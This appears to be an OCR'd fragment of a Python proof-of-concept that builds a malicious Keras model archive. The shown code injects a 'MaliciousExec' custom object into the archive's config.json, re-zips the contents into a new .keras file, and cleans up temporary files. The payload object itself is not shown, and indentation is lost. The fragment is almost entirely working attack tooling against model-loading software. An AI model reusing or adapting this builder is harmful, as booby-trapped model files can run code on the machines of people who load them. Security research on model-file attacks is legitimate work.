 ```python

# Add our malicious object under the key "MaliciousExec"

config_data["registered_objects"]["MaliciousExec"] = malicious_custom_object

  

with open(config_path, 'w') as f:

json.dump(config_data, f, indent=4)

print(f"[*] Injected malicious payload into {config_path}")

  

except Exception as e:

print(f"[!] Error modifying config.json: {e}")

# Clean up if modification fails

if os.path.exists(temp_extracted_dir):

shutil.rmtree(temp_extracted_dir)

if os.path.exists(temp_model_path):

os.remove(temp_model_path)

return

  

# Step 5: Re-zip the modified contents into the new malicious .keras archive.

try:

with zipfile.ZipFile(output_filename, 'w') as zipf:

for root, _, files in os.walk(temp_extracted_dir):

for file in files:

file_path = os.path.join(root, file)

arcname = os.path.relpath(file_path, temp_extracted_dir)

zipf.write(file_path, arcname)

print(f"[*] Malicious Keras archive '{output_filename}' created successfully.")

except Exception as e:

print(f"[!] Error re-zipping archive: {e}")

return

  

# Step 6: Clean up temporary files and directories.

try:

```